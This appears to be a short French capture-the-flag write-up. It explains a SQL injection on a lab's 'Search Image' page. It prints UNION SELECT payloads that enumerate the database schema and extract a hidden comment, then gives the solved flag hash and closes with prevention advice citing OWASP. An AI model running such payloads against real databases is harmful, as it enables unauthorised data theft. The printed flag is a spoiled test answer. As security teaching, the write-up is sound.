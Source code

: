 # Explication
Dans la page ***Search Image*** on peut injecter les commandes SQL et récupérer les nom de toutes les tables et de leurs colonnes avec cette commande :
`1 or 1=1 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS`

À partir de là on peut trouver n'importe quelle information dans la base de donnée. Dont le flag grace à la commande : `1 or 1=1 UNION SELECT comment, title FROM list_images`

On obtient : `If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46`

Décrypté en MD5 -> albatroz

Crypté en sha256 -> f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

# Comment l'eviter ?
Pour s'en prémunir on peut soit whitelist les inputs de l'utilisateur ou encore utiliser des requêtes paramétrées permettant de bien distinguer la commande en elle même et la valeur recherchée entrée par l'utilisateur.

source : https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html#defense-option-4-escaping-all-user-supplied-input